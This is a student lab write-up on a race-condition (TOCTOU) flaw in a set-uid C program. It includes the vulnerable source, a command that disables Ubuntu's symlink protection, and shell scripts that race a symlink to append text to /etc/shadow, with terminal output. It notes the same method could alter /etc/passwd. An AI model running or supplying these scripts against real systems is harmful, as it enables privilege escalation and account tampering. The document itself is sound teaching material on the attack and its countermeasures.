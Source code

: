 ## 1 Lab Description
The learning objective of this lab is for students to gain the first-hand experience on the race-condition 
vulnerability by putting what they have learned about the vulnerability from class into actions. A race 
condition occurs when multiple processes access and manipulate the same data concurrently, and the 
outcome of the execution depends on the particular order in which the access takes place. If a privileged 
program has a race-condition vulnerability, attackers can run a parallel process to “race” against the 
privileged program, with an intention to change the behaviors of the program.
In this lab, students will be given a program with a race-condition vulnerability; their task is to develop a 
scheme to exploit the vulnerability and gain the root privilege. In addition to the attacks, students will be 
guided to walk through several protection schemes that can be used to counter the race-condition 
attacks. Students need to evaluate whether the schemes work or not and explain why.
## 2 Lab Tasks
Before working on the lab tasks, ensure to have read the Guidelines in Section 3.
### 2.1 Initial setup
Ubuntu 10.10 and later come in with a built-in protection against race condition attacks. This scheme 
works by restricting who can follow a symlink. According to the documen-tation, “symlinks in world-
writable sticky directories (e.g. /tmp) cannot be followed if the follower and directory owner do not match 
the symlink owner.” In this lab, we need to disable this protection. You can achieve that using the 
following command:

```sh
$ sudo sysctl -w fs.protected_symlinks=0
```

### 2.2 A Vulnerable Program
The following program is a seemingly harmless program. It contains a race-condition vulnerability.

```sh
/* vulp.c */
#include <stdio.h>
#include <unistd.h>
int main()
{ 
  char *fn = "/tmp/XYZ";
  char buffer[60];FILE *fp;
  /* get user input */
  scanf("%50s", buffer );
  if (!access(fn, W_OK))
  {
    fp = fopen(fn, "a+");
    fwrite("\n", sizeof(char), 1, fp);
    fwrite(buffer, sizeof(char), strlen(buffer), fp); fclose(fp);
  }
  else printf("No permission \n");
}
```
In this lab, you need to compile the above program using the root account and make it as a set-uid 
program. This program appends a string of user input to the end of a temporary file /tmp/XYZ. Since the 
code runs with the root privilege, it carefully checks whether the real user actually has the access 
permission to the file /tmp/XYZ; that is the purpose of the access() call. Once the program has made sure 
that the real user indeed has the right, the program opens the file and writes the user input into the file. In 
this lab, you can use the seed account to create a file named XYZ.

It appears that the program does not have any problem at a first glance. However, there is a race 
condition vulnerability in this program: due to the window (the simulated delay) between the check 
(access) and the use (fopen), there is a possibility that the file used by access is different from the file 
used by fopen, even though they have the same file name /tmp/XYZ. If a malicious attacker can 
somehow make /tmp/XYZ a symbolic link pointing to /etc/shadow, the attacker can cause the user input 
to be appended to /etc/shadow (note that the program runs with the root privilege, and can therefore 
overwrite any file).

### 2.3 Task 1: Exploit the Race Condition Vulnerabilities
You need to exploit the race condition vulnerability in the above Set-UID program. More specifically, you 
need to add a line “cs532-lab” to the end of /etc/shadow by using the race. Please also explain why your 
attack can success.
Actually, if you are able to modify the shadow file, you can use the same attack to modify the /etc/passwd 
file. As a result, you are be able to create any kind of accounts for the OS.

Our attack script:

```sh
#!/bin/sh
# attack.sh
race()
{
	old=`ls -l /etc/shadow`
	old=`ls -l /etc/shadow`
	while [ "$old"="$new" ]
	do
		rm -f /tmp/XYZ
		>/tmp/XYZ
		ln -sf /etc/shadow /tmp/XYZ
		new=`ls -l /etc/shadow`
	done
}

race
echo "Stop... The shadow has been changed!"
RACE_PID=$!
kill $RACE_PID
```

Loop execution script:

```sh
#!/bin/sh
# loop.sh
race()
{
	while true
	do
		./vulp < attack_input
	done
}

race
RACE_PID=$!
kill $RACE_PID
```

Content in attack_input:

```sh
cs532-lab
```

Now, let's attack it.

```sh
[11/03/21]seed@VM:~/race-cond-lab$ ls -al
total 32
drwxrwxr-x  2 seed seed 4096 Nov  3 15:29 .
drwxr-xr-x 29 seed seed 4096 Nov  3 15:10 ..
-rwsr-xr-x  1 root root   10 Nov  3 15:10 attack_input
-rwsr-xr-x  1 root root  280 Nov  3 15:07 attack.sh
-rwsr-xr-x  1 root root  110 Nov  3 15:08 loop.sh
-rwsr-xr-x  1 root root 7628 Nov  2 21:18 vulp
-rw-r--r--  1 root root  356 Nov  2 21:18 vulp.c
[11/04/21]seed@VM:~/race-cond-lab$ ./loop.sh ; ./attack.sh
```
Firstly we disabled the symbolic links protection mechanism. Then, we create a vulnerable program. Then we create an explit program which tres to explit the race condition vulnerability by exploiting the gap.Then we create a input file and write a text "cs532-lab". loop.sh is a shell code that takes the input value.After some attempts at exploiting race condition, our attack runs.  

### 2.4 Task 2: Protection Mechanism A: Repeating
Getting rid of race conditions is not easy, because the check-and-use pattern is often necessary in 
programs. Instead of removing race conditions, we can actually add more race conditions, such that to 
compromise the security of the program, attackers need to win all these race conditions. If these race 
conditions are designed properly, we can exponentially reduce the winning probability for attackers. The 
basic idea is to repeat access() and fopen() for several times.
Please use this strategy to modify the vulnerable program and repeat your attack. Report how difficult it is 
to succeed, if you can still succeed.


### 2.5 Task 3: Protection Mechanism B: Principle of Least Privilege
The fundamental problem of the vulnerable program in this lab is the violation of the Principle of Least 
Privilege. The programmer does understand that the user who runs the program might be too powerful, 
so he/she introduced access() to limit the user’s power. However, this is not the proper approach. A better
approach is to apply the Principle of Least Privilege; namely, if users do not need certain privilege, the 
privilege needs to be disabled.
We can use seteuid() system call to temporarily disable the root privilege, and later enable it if necessary. 
Please use this approach to fix the vulnerability in the program, and then repeat your attack. Will you be 
able to succeed? Please report your observations and explanation.
### 2.6 Task 4: Protection Mechanism C: Ubuntu’s Built-in Scheme
As we mentioned in the initial setup, comes with a built-in protection scheme against race condition 
attacks.
In this task, you need to turn the protection back on using the following command:
```sh
$ sudo sysctl -w fs.protected_symlinks=1
```
In your report, please describe your observations. Please also explain why does this protection scheme 
work?
